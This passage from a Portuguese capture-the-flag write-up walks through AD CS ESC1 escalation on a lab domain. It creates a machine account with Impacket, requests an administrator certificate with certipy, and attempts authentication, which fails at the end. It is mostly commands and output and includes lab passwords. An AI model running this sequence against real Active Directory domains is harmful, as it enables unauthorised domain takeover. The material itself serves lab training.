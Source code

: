     ```
    
    Acrescentar os dominios dos hosts `echo 10.10.11.222 authority.authority.htb authority.htb | sudo tee -a /etc/hosts`
    
    No certificado vemos que temos uma forma de escalar privilégios ESC1
    
    Isto indica nos que a partir dos certificados podemos delegar o utilizador que temos ao grupo de utilizadores administradores. Para isso temos de criar um utilizador novo.
    
    [`addcomputer.py](http://addcomputer.py/) 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -
    computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222`
    
    ```
    addcomputer.py 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -
    computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222
    
    Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
    Password:lDaP_1n_th3_cle4r!
    [*] Successfully added machine account EVIL01$ with password Str0ng3st_P@ssw0rd!.
    ```
    
    Obter o certificado de adminsitradores 
    
    `certipy req -username EVIL01$ -password 'Str0ng3st_P@ssw0rd!' -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb -debug`
    
    ```
    certipy req -username EVIL01$ -password 'Str0ng3st_P@ssw0rd!' -ca AUTHORITY-CA -
    dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns
    authority.htb -debug
    
    Note: If you get a clock skew error, sync your host with the Domain Controller host
    using ntpdate .
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    [+] Generating RSA key
    [*] Requesting certificate via RPC
    [+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
    [+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
    [*] Successfully requested certificate
    [*] Request ID is 4
    [*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator_authority.pfx'
    ```
    
    Utilizando o certificado que temos não e possivel obter um TGT 
    
    `certipy auth -pfx administrator_authority.pfx -debug`
    
    ```
    certipy auth -pfx administrator_authority.pfx -debug
    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    [*] Found multiple identifications in certificate
    [*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
    > 0
    [+] Trying to resolve 'authority.htb' at '8.8.8.8'
    [*] Using principal: administrator@authority.htb
    [*] Trying to get TGT...
    [-] Got error while trying to request TGT: Kerberos SessionError:
    KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
    ```
    